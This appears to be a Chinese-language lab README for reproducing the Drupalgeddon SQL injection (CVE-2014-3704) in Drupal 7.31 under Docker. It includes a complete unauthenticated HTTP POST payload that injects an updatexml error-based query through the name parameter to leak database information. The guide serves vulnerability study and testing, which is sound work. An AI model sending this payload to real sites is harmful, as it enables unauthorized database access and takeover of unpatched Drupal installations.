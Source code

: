 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](1.png)

安装完成后，访问首页：

![](2.png)

## 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：

![](3.png)